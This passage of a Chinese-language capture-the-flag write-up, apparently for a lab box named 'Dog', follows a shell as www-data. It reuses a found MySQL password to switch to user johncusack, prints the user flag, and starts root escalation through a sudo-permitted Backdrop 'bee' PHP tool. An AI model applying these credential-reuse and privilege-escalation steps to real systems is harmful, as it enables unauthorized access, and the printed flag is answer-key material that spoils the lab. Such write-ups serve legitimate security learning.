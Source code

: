 ```bash
(remote) www-data@dog:/var/www/html/modules/shell$ ls -lh /home/
total 8.0K
drwxr-xr-x 4 jobert     jobert     4.0K Feb  7 15:59 jobert
drwxr-xr-x 3 johncusack johncusack 4.0K Feb  7 15:59 johncusack
```

尝试上文发现的 mysql 数据库凭据，发现可以登录 johncusack

```bash
(remote) www-data@dog:/var/www/html/modules/shell$ su johncusack
Password:
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
sh: 0: getcwd() failed: No such file or directory
johncusack@dog:/var/www/html/modules/shell$
```

## FLAG - USER

```flag title="/home/johncusack/user.txt"
e7ea764890f7ab52949fe7cdbaad87b5
```

## 提权至 root

在 sudo 配置信息中可以发现

```bash
johncusack@dog:~$ sudo -l
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee

johncusack@dog:~$ file /usr/local/bin/bee
/usr/local/bin/bee: symbolic link to /backdrop_tool/bee/bee.php
```

查看 php 源代码

```php title="/backdrop_tool/bee/bee.php"
#!/usr/bin/env php
<?php
/**
 * @file
 * A command line utility for Backdrop CMS.
 */

// Exit gracefully with a meaningful message if installed within a web
// accessible location and accessed in the browser.
if (!bee_is_cli()) {
    echo bee_browser_load_html();
    die();
}

// Set custom error handler.
set_error_handler('bee_error_handler');

// Include files.
require_once __DIR__ . '/includes/miscellaneous.inc';
require_once __DIR__ . '/includes/command.inc';
require_once __DIR__ . '/includes/render.inc';
require_once __DIR__ . '/includes/filesystem.inc';
require_once __DIR__ . '/includes/input.inc';
```